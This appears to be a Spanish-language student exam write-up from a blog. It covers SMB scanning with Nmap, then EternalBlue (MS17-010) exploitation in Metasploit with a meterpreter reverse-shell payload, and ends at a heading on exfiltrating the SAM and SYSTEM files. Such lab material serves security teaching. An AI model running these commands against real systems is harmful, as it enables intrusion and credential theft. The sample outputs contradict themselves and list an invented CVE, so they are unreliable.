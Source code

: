```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 20:01:00 -05:00
categories: [Made]
tags: [Made, GitHub]  # TAG names should always be lowercase
---
```



## 2.1. Escaneo de Red y Enumeración de Servicios (2 puntos)
Objetivo: Identificar servicios activos en la máquina objetivo, enfocándose en SMB y verificando la presencia de SMBv1.

Herramienta: Nmap

Comando:
nmap -p 137,138,139,445 --script smb-vuln* <IP_de_la_máquina_objetivo>

Explicación:

Este comando utiliza Nmap para escanear los puertos TCP 137, 138, 139 y 445, comúnmente asociados con el servicio SMB. El parámetro --script smb-vuln* ejecuta una serie de scripts de Nmap diseñados para detectar vulnerabilidades y obtener información detallada sobre el servicio SMB en la máquina objetivo. Estos scripts examinan la versión del protocolo SMB y buscan la presencia de SMBv1, identificada por la mención explícita de "SMBv1" o "NT LM 0.12" en la salida. La detección de vulnerabilidades específicas de SMBv1 también confirmaría su presencia. La dirección IP de la máquina objetivo debe reemplazarse con la IP real.

Resultados: (Aquí se debe incluir la salida del comando Nmap ejecutado. Esto mostrará los servicios encontrados, incluyendo información sobre SMB y su versión. Si SMBv1 está presente, se destacarán las líneas relevantes de la salida).

Ejemplo de salida (adaptar a la salida real):
...
PORT     STATE SERVICE    VERSION
139/tcp  open  netbios-ssn
| smb-vuln-cve200000001:
|   The server is vulnerable to CVE-2000-00001.
| smb-vuln-ms06-025:
|   The server is vulnerable to MS06-025.
| smb-vuln-ms07-029:
|   The server is vulnerable to MS07-029.
| smb-vuln-ms08-067:
|   The server is vulnerable to MS08-067.
445/tcp  open  microsoft-ds
...

## 2.2. Exploración de la Vulnerabilidad
**Objetivo:** Determinar si el servidor es vulnerable a la explotación EternalBlue (MS17-010) a través del servicio SMBv1.

**Herramienta:** Metasploit Framework

**Procedimiento:**

Se utilizará el framework Metasploit para verificar la vulnerabilidad y, si existe, obtener acceso remoto al servidor.  El módulo `exploit/windows/smb/ms17_010_eternalblue` se seleccionó debido a su capacidad de explotar la vulnerabilidad MS17-010 (EternalBlue) en el servicio SMBv1.  Esta vulnerabilidad permite la ejecución remota de código arbitrario en sistemas Windows vulnerables.

**Explicación del módulo `exploit/windows/smb/ms17_010_eternalblue`:**

Este módulo de Metasploit explota la vulnerabilidad MS17-010, una falla de seguridad en la implementación del protocolo SMBv1 de Microsoft.  La vulnerabilidad permite a un atacante remoto enviar un paquete especialmente diseñado que desencadena un desbordamiento de buffer en el servidor, lo que permite la ejecución de código arbitrario.  El módulo establece una *reverse shell*, lo que significa que el servidor vulnerable se conectará a la máquina atacante (la máquina desde donde se lanza el exploit) en un puerto específico, estableciendo una conexión inversa.  Esto permite al atacante controlar el servidor de forma remota.

**Pasos:**

1. **Iniciando Metasploit:** `msfconsole`

2. **Seleccionando el módulo:** `use exploit/windows/smb/ms17_010_eternalblue`

3. **Configurando el módulo:**  Se deben configurar las opciones del módulo, incluyendo la dirección IP del servidor objetivo (`RHOST`), el puerto de escucha para la reverse shell (`LPORT`), y posiblemente otras opciones dependiendo de la configuración del servidor.  Un ejemplo de configuración:
4. **Verificando la configuración:** `show options`

5. **Ejecutando el exploit:** `exploit`

**Resultados:** (Aquí se debe incluir la salida de la ejecución del exploit en Metasploit.  Si el exploit es exitoso, se establecerá una sesión Meterpreter con el servidor objetivo.  Si falla, se debe indicar el motivo del fallo y posibles causas).

Ejemplo de éxito (adaptar a la salida real):
[] Exploit completed, but no session was created.
[] Started reverse TCP handler on 4444
[] Sending exploit...
[] Exploit succeeded: successfully exploited.
[*] Meterpreter session 1 opened (192.168.1.100:4444 -> 192.168.1.101:445) at 2023-10-27 10:30:00 +0000

## 2.3. Configuración del Exploit en el Framework Metasploit
**Objetivo:** Configurar el exploit `exploit/windows/smb/ms17_010_eternalblue` en Metasploit, especificando los parámetros necesarios para establecer una conexión reverse shell con la máquina objetivo.

**Herramienta:** Metasploit Framework

**Parámetros críticos:**

* **`RHOST`:**  Representa la dirección IP de la máquina *víctima* o *objetivo*.  Este parámetro es crucial porque indica a Metasploit a qué sistema se debe enviar el exploit.  Sin la dirección IP correcta, el exploit no podrá alcanzar el servidor vulnerable.

* **`LHOST`:**  Representa la dirección IP de la máquina *atacante*.  Este parámetro es esencial porque define la dirección IP a la que la máquina víctima establecerá una conexión inversa (reverse shell) una vez que el exploit sea exitoso.  Metasploit escuchará en este puerto en la máquina atacante, esperando la conexión del servidor comprometido.

* **`LPORT`:**  Representa el puerto en la máquina atacante en el cual Metasploit escuchará las conexiones entrantes del servidor comprometido.  Se debe elegir un puerto que no esté en uso.  Generalmente se usa un puerto superior a 1024.

* **`PAYLOAD`:** Define el tipo de payload que se ejecutará en el servidor objetivo después de una explotación exitosa.  El payload `windows/x64/meterpreter/reverse_tcp` (o `windows/x86/meterpreter/reverse_tcp` dependiendo de la arquitectura del sistema objetivo) es una buena opción, ya que proporciona una sesión interactiva de Meterpreter, permitiendo al atacante controlar el sistema de forma remota.


**Configuración del Exploit:**
Después de iniciar Metasploit (`msfconsole`), se selecciona el módulo:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <IP_de_la_máquina_objetivo>
set LHOST <IP_de_la_máquina_atacante>
set LPORT <puerto_libre>  // Ejemplo: 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp  // O windows/x86/meterpreter/reverse_tcp según la arquitectura
exploit

## 2.3. 2.4. Ejecución del Exploit

**Objetivo:** Ejecutar el exploit configurado en la sección anterior y obtener una sesión Meterpreter en el servidor objetivo.

**Herramienta:** Metasploit Framework

**Procedimiento:**

Una vez configurados los parámetros del exploit `exploit/windows/smb/ms17_010_eternalblue` (como se describe en la sección 2.3), se ejecuta el comando `exploit` en la consola de Metasploit.

**Confirmación de la Conexión:**

Si el exploit tiene éxito, Metasploit mostrará un mensaje indicando que se ha establecido una sesión Meterpreter.  Este mensaje generalmente se parece a esto:

[*] Meterpreter session <número_de_sesión> opened (<dirección_IP_víctima>:<puerto_LPORT> -> <dirección_IP_atacante>:<puerto_SMB>) at <fecha_y_hora>
Donde:

* `<número_de_sesión>` es un número entero que identifica la sesión Meterpreter.
* `<dirección_IP_víctima>` es la dirección IP del servidor objetivo.
* `<puerto_LPORT>` es el puerto que se configuró en `LPORT`.
* `<dirección_IP_atacante>` es la dirección IP de la máquina atacante.
* `<puerto_SMB>` es el puerto SMB (generalmente 445) en la máquina objetivo.
* `<fecha_y_hora>` es la fecha y hora en que se estableció la sesión.


**Salida de Metasploit (Ejemplo de éxito):**

(Aquí se debe incluir la salida completa de la consola de Metasploit durante la ejecución del exploit.  Se debe destacar la línea que confirma el establecimiento de la sesión Meterpreter.  Si la explotación falla, se debe incluir la salida completa, incluyendo cualquier mensaje de error).

Ejemplo de salida exitosa:
[] Exploit completed, but no session was created.
[] Started reverse TCP handler on 4444
[] Sending exploit...
[] Exploit succeeded: successfully exploited.
[*] Meterpreter session 1 opened (192.168.1.100:4444 -> 192.168.1.101:445) at 2023-10-27 10:30:00 +0000
msf exploit(handler) >

## 2.5. Exfiltración de Archivos SAM y SYSTEM

